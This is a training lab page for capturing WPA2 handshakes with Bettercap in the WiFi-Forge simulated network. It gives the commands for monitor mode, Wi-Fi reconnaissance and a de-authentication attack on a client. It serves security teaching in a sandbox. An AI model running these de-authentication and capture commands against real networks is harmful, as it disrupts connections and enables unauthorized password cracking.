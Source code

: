 # OPTIONAL Lab - WiFi-Forge

!!! warning
    WiFi-Forge is under **active development** (AKA - this Lab may have issues) by the good folks at Black Hills Information Security. They are seeking feedback on the tool and welcome the submission of any issues on the [main GitHub page](https://github.com/blackhillsinfosec/Wifi-Forge/issues).

    A forked version can be found at [https://github.com/ridgebackinfosec/Wifi-Forge](https://github.com/ridgebackinfosec/Wifi-Forge) which should work with this Lab.

!!! warning
    Wifi-Forge can take up a lot of space on a VM and can create unpredicatable consequences between dependencies. It is recommended that you either create a new VM from The Forge base image or snapshot your class VM ***before*** installing Wifi-Forge.

!!! note
    This and many more WiFi-Forge Labs are available at [https://wififorge.github.io/](https://wififorge.github.io/). 
    
    Follow the install steps from the slides or [here](https://wififorge.github.io/Installation/Installation) before working on this Lab.

In this lab, we will familiarize ourselves with Bettercap, a common wireless auditing tool.

## Getting Started with Bettercap

```bash
cd ~/Wifi-Forge/Framework
sudo python3 WifiForge.py
```

Select **Bettercap Recon** from the menu. Allow up to 30 seconds to initialize the network.

![Bettercap Recon](img/main-menu.png){ width="70%" }

!!! note
    Normally, when using Bettercap with physical network cards, it is necessary to use `airmon-ng check kill` to terminate processes that may interfere. However, running this command in the mininet-wifi network is unnecessary and may cause failures.

Start by putting the interface `a-wlan0` in monitor mode:

```bash
airmon-ng start Attacker-wlan0
```

If prompted, input **y** and hit enter.

![Prompt](img/prompts.png){ width="70%" }

Successful initialization will appear as shown below:

![Initialization Success](img/init-success.png){ width="70%" }

Verify that the interface has been put into monitor mode:

```bash
ifconfig | grep flags
```

The interface `a-wlan0mon` should now be present:

![Monitor Mode Active](img/monitor-mode.png){ width="70%" }

## Launching Bettercap

Run the following command to start Bettercap with the interface in monitor mode:

```bash
bettercap -iface a-wlan0mon
```

You will be greeted by a prompt displaying the network interface name:

![Bettercap Interface](img/interface.png){ width="70%" }

The following commands configure the console for a more understandable workflow to view the de-authentication attack:

```bash
set wifi.show.sort clients desc
set ticker.commands 'clear; wifi.show'
ticker on
set wifi.show.sort clients desc
```

After running these commands, you should see the following on your screen:

![Bettercap Console](img/console.png){ width="70%" }

Disable console logging using:

```bash
events.stream off
```

## Capturing Handshakes

Set the handshakes file and enable the `wifi.recon` module:

```bash
set wifi.handshakes.file ./loot/4whs
wifi.recon on
```

Force the interface to operate only on channel 6:

```bash
wifi.recon.channel 6
```

Start the de-authentication attack:

```bash
wifi.deauth 76:df:71:67:40:2b
```

It may take a few seconds, but Bettercap will catch the handshake:

![Handshake Captured](img/handshake.png){ width="70%" }

A handshake is an encrypted WPA2 password intercepted between the client and router, which can be decrypted offline.

Your final packet count may differ from the screenshot.